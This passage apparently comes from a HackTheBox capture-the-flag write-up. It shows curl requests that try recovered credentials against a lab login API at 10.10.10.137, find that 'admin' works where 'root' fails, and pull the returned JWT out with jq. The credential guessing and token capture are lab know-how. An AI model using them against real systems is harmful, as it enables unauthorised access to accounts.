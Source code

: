 ```
curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"root","password":"Zk6heYCyv6ZE9Xcg"}' [http://10.10.10.137:3000/login](http://10.10.10.137:3000/login)

Forbidden#
```

I get a “Forbidden” as the response. It seems that the credentials are not valid or we don’t have privilege to access this. After thinking some time and looking at what I have, I remember that there is a /users/admin path. Deducting that an admin user is valid, I tried changing root to admin:

```
curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' [http://10.10.10.137:3000/login](http://10.10.10.137:3000/login)


{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDUxMzEwLCJleHAiOjE1Njg1Mzc3MTB9.sP-q66lsXIsSs8jhYhvM6giOVvwABmmEJYoYl054gbc"}
```

I then get a “success:true”. So the valid credentials are **admin:Zk6heYCyv6ZE9Xcg.**

#### Using jq

I then used a tool called jq. It is a tool to make json outputs much more “viewable” and “manageable”. Read more about how you can use it here:

> [**You Need To Know jq**](https://0xdf.gitlab.io/2018/12/19/jq.html)
>
> <small>jq is such a nifty tool that not nealry enough people know about. If you're working with json data, even just small bits here and there, it's worth knowing the basics to make some simple data manipulations possible. And if you want to become a full on jq wizard, all the better.</small>

Using jq, the output will look like this:

```
curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' [http://10.10.10.137:3000/login](http://10.10.10.137:3000/login) | jq


{
  "success": true,
  "message": "Authentication successful!",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDUxNDkwLCJleHAiOjE1Njg1Mzc4OTB9.pTGePScCFa4gFXNj9Gjfc9RqZfLwMBKtGY_HyfuULa0"
}
```

Filtering the value “token”:

```
curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' [http://10.10.10.137:3000/login](http://10.10.10.137:3000/login) | jq '.token'


"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDUxNTQzLCJleHAiOjE1Njg1Mzc5NDN9.PQlVYZfOkIRGnBMnpb6jDeV5F9g86ttccgrApZoC_xQ"
```
